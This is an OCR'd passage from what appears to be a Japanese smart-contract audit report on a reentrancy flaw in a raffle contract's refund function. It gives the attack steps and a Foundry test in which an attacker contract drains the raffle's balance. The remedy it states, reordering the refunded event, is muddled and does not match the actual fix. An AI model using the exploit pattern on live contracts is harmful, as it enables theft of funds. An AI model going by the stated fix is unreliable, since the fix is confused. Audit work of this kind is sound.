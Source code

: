 `RaffleRefunded`イベントは、状態変更の前に発行されるべきです。イベントを状態変更の前に発行することは、ベストプラクティスです。

これにより、コントラクトの状態に関する混乱を避け、リエントランシー攻撃の可能性を開かないようにします。

**影響:**<br />

- コントラクトから返金資金を吸い取り、他のユーザーにとって返金機能を使用できなくすることにつながります。
- それでコントラクトが空になる。

**概念実証:**<br />

プロジェクトのルートフォルダで`slither .`を実行すると、以下の詳細が出力されます：

\pagebreak

<details><summary> Slitherの出力を見る</summary></details>

- 攻撃者コントラクトを使用したリエントランシー攻撃のテストケース：

1. ユーザーがラッフルに参加します。
2. 攻撃者が`refund`を呼び出すフォールバック関数を持つコントラクトを設定します。
3. 攻撃者がラッフルに参加します。
4. 攻撃者が自分のコントラクトから`refund`を呼び出し、コントラクトの残高を空にします。

\pagebreak

```javascript

    function testCanGetRefundReentrancy() public {
        address[] memory players = new address[](4);
        players[0] = playerOne;
        players[1] = playerTwo;
        players[2] = playerThree;
        players[3] = playerFour;
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

        console.log(
            "攻撃前のラッフルコントラクトの残高： %s",
            address(puppyRaffle).balance
        );

        // 攻撃者を導入
        AttackReentrant attackerContract = new AttackReentrant(puppyRaffle);
        address attacker = makeAddr("attacker");
        vm.deal(attacker, 10 ether);

        uint256 attackerContractBalanceBefore = address(attackerContract)
            .balance;

        vm.prank(attacker);
        attackerContract.attack{value: entranceFee}();

        console.log(
            "攻撃前の攻撃者コントラクトの残高： %s",
            attackerContractBalanceBefore
        );
        console.log(
            "攻撃後の攻撃者コントラクトの残高： %s",
            address(attackerContract).balance
        );

               console.log(
            "攻撃後のラッフルコントラクトの残高： %s",
            address(puppyRaffle).balance
        );
    }


```